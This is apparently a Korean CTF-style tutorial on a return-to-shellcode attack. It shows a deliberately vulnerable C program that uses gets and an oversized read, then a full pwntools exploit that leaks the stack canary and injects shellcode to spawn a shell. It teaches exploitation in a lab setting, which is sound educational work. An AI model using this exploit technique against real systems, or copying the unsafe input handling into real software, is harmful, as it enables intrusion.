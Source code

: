 ## 📍Return to Shellcode

### 소스코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```


### 분석
#### 보호기법 탐지

적용된 바이너리 보호기법에 따라 익스플로잇 설계가 달라지므로, 분석 전에 먼저 어떤 보호기법이 작용되었는지 파악하는 것이 좋다.

pwntools와 함께 설치되는 **checksec** 툴을 사용한다.

`$ checksec ./r2s`

![](Attachments/8DB0DD9C-D126-49C6-B4CB-65CEA4F4E022.png)

카나리가 적용되어 있다.

#### 취약점 탐색

##### buf의 주소
문제에서 `buf`의 주소 및 `rbp`와 `buf` 사이의 주소 차이를 알려주고 있다.
##### 스택 버퍼 오버플로우
스택 버퍼인 `buf`에 총 2번의 입력을 받는다.
`read` 함수에서 주어진 버퍼보다 더 큰 입력을 받을 수 있고, `gets` 함수는 입력 크기를 제한하지 않으므로 안전하지 않은 함수이다.

### 익스플로잇 시나리오
#### 카나리 우회

두 번째 입력(`gets`)으로 반환 주소를 덮을 수 있지만 카나리가 조작되면 `__stack_chk_fail` 함수에 의해 프로그램이 강제 종료된다.
![](Attachments/DF26A06C-04F4-455A-A96D-7D790162A035.png)

첫 번째 입력을 살펴보자:
```c
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
```
- 스택 버퍼에 최대 100바이트의 입력을 받는다.
- 입력을 받고 바로 직후에 `buf`의 내용을 문자열로 출력한다.
- `buf`에 적절한 오버플로우를 발생시켜서 카나리 값을 구하고, 구한 카나리 값을 두 번째 입력에 사용한다.

#### 셸 획득

카나리를 구하고 나면, 두 번째 입력으로 반환 주소를 덮을 수 있다.
이때, 바이너리에 셸을 획득하는 코드가 없으므로 직접 셸을 획득하는 코드를 주입하고 해당 코드로 실행 흐름을 옮겨야 한다.

`buf`의 주소는 프로그램이 출력해주므로 주소를 알고 있는 `buf`에 셸 코드를 주입하고 해당 주소로 실행 흐름을 옮겨 셸을 획득한다.

### 익스플로잇

#### 스택 프레임 정보 수집

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Adress of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp -8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```

#### 카나리 릭

스택 프레임에 대한 정보를 수집했으므로 이를 활용해 카나리를 구해야 한다.
`buf`와 카나리 사이를 임의의 값으로 채우면, 프로그램에서 `buf`를 출력할 때 카나리가 같이 출력된다.

![](Attachments/7DB10F8C-6142-4270-ABC3-813E0F263BE3.png)

```python
# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 익스플로잇

![](Attachments/561167F2-0E66-4661-ACF1-E015D440FDD0.png)

카나리를 구했으므로 `buf`에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 RET(반환 주소)를 `buf`로 덮으면 셸코드를 진행시킬 수 있다.

```python
# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```